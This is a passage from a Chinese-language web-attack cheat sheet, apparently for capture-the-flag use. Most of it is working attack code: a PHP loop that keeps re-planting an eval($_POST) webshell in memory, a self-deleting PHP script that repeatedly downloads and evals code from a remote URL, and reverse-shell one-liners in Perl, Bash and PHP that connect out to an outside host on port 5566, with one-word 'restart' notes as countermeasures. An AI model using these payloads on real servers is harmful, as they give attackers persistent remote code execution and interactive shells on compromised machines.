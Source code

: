 ## webshell駐留記憶體

解法：restart
```php
<?php
    ignore_user_abort(true);  // 忽略連線中斷
    set_time_limit(0);  // 設定無執行時間上限
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## 無文件webshell

解法：restart
```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```


## Reverse Shell

- 本機Listen Port
    - `ncat -vl 5566`

- Perl
    - `perl -e 'use Socket;$i="kaibro.tw";$p=5566;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

- Bash
    - `bash -i >& /dev/tcp/kaibro.tw/5566 0>&1`
    - `bash -c 'bash -i >& /dev/tcp/kaibro.tw/5566 0>&1'`

- PHP
    - `php -r '$sock=fsockopen("kaibro.tw",5566);exec("/bin/sh -i <&3 >&3 2>&3");'`
